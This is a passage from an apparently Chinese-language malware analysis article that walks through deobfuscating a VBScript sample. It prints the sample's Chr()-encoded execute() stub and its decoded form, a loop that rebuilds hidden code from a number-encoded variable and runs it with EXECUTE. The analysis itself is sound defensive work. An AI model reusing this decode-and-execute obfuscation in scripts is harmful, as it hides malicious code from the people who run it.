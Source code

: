   
	直接把这些还原以后，文件大概如下面这个样子，还不是标准的  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/ZmiaibBst1BVTGnyd3CJZDcl9pc8qg5UTKtkGGxYDqV4W9lsu2OhdlC3XZpmKIlibBuvLNnd1xePw7aKK2icDMYticA/640?wx_fmt=png&from=appmsg "")  
###   
###   
### 2.3.2. execute解码  
  
再分析样本的最后几行，可以看到有execute这个函数，将下面的execute内容进行解码：  

```
exeCUTE(I(77)&I(83)&I(65)&I(61)&I(32)&I(83)&I(112)
&I(76)&I(105)&I(84)&I(40)&I(77)&I(83)&I(65)&I(44)&I(34)
&I(37)&I(34)&I(41)&I(13)&I(10)&I(70)&I(79)&I(82)&I(32)
&I(85)&I(83)&I(77)&I(65)&I(32)&I(61)&I(32)&I(49)&I(32)
&I(84)&I(79)&I(32)&I(117)&I(98)&I(79)&I(85)&I(110)&I(68)
&I(40)&I(77)&I(83)&I(65)&I(41)&I(13)&I(10)&I(74)
&I(83)&I(75)&I(61)&I(74)&I(83)&I(75)&I(43)&I(99)
&I(72)&I(82)&I(40)&I(77)&I(83)&I(65)&I(40)&I(85)
&I(83)&I(77)&I(65)&I(41)&I(47)&I(49)&I(56)&I(41)
&I(13)&I(10)&I(78)&I(69)&I(88)&I(84)&I(13)&I(10)
&I(101)&I(88)&I(101)&I(67)&I(85)&I(84)&I(69)&I(40)
&I(74)&I(83)&I(75)&I(41)):
fUncTiOn I(BR):I=CHr(BR):eNd fUnCtIoN
```

  
为了方便的话可以使用chatcpt来解码，解码以后内容如下：  

```
MSA = SPLIT(MSA, &#34;%&#34;)
FOR USMA = 1 TO UBOUND(MSA)
    JSK = JSK + CHR(MSA(USMA) / 18)
NEXT
EXECUTE(JSK)


Function I(BR)
    I=Chr(BR)
End Function
```

  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/ZmiaibBst1BVTGnyd3CJZDcl9pc8qg5UTKDVoEb1IzT9C7BpQgeFAfRGJpKgSKKHdyHFyEiaxcaNrYdqNRtPK5UDw/640?wx_fmt=png&from=appmsg "")  
  
其他代码过于繁长不再这里展示  
  
总的来说就是处理MAS,然后execute 执行  
  
如果处理完mas变量后，大致的vbs结果如下，可以看到还是读不懂  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/ZmiaibBst1BVTGnyd3CJZDcl9pc8qg5UTKaQGXzJAnMgTa5icZ02QpOtJF0D9G2icxabKWWvCaA4U0neTpoib2HibL3w/640?wx_fmt=png&from=appmsg "")  
  
通过AI编写脚本，到最后可以进行直接分析出结果  
  
  
  